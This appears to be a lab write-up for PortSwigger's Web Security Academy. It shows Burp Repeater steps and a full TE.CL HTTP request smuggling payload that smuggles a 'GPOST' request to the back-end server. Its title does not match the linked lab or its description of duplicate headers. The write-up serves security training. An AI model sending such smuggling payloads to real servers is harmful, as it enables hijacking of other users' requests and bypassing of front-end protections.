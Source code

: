 # HTTP request smuggling, basic TE.CL vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header) involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method. 

## Reproduction and proof of concept

1. In Burp Suite, disable the **Autoupdate content length** in Repeater (in the topmost menu row)
2. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The second (or third) response should say: ``Unrecognized method GPOST``.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 
